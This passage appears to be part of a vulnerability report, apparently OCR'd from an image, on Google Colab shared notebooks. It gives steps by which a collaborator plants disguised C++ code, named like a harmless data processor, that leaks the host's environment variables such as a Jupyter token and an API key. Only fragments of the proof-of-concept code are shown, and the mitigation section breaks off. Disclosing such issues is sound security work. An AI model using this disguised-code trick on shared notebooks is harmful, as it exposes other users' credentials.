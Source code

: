 ```cpp
    cout << new_str << endl;
    return 0;
}

```

---

### Steps to Reproduce

1. Share a Colab notebook with another user (attacker).
2. The attacker embeds the above PoC script, naming it `data_processor.cpp`.
3. The attacker compiles the script in the shared notebook:
    
    ```bash
    !g++ data_processor.cpp -o helper_script.out
    
    ```
    
4. The host executes the compiled script:
    
    ```bash
    !./helper_script.out
    
    ```
    
5. Check the generated output statement for leaked environment variables.

---

### ✅ Expected Result

Environment variables should be securely isolated from user-submitted code, even in shared notebook environments.

---

### ❌ Observed Result

Sensitive environment variables are leaked during the execution of the disguised code. Example output:

```
PATH=/usr/local/bin:/usr/bin:/bin:/usr/sbin:/sbin
HOME=/root
COLAB_JUPYTER_TOKEN=example-token-12345
API_KEY=my-sensitive-api-key

```

---

## 🛠️ Mitigation

To address this vulnerability, the following mitigations are recommended:
